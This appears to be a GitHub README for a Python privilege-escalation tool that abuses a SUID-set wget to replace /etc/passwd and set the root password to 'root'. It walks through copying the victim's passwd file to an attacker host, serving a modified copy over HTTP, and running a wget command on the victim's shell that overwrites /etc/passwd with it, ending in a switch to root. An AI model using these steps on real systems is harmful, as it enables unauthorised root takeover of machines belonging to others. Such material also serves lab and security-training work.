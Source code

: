 # Wget-Root

This is a python script that exploits wget when being set with a SUID bit, and overwrites the root password.

# Usage
From the victims shell, copy the /etc/passwd file to your host machine. (Be carefull and do not overwrite your own passwd file)
```bash
python3 wget_exploit --file <passwd copy> --port <webserver port>
```
The script will overwrite the <passwd copy> file, containing the changed `root` password. 
Then it will host the passwd file to the web using a python http server.
Run the command `sudo wget http://<host ip>:<webserver port>/passwd -O /etc/passwd` on the victims shell to overwrite the passwd file.
**Congratulations!** 
Now switch users to `root` with the password `root`
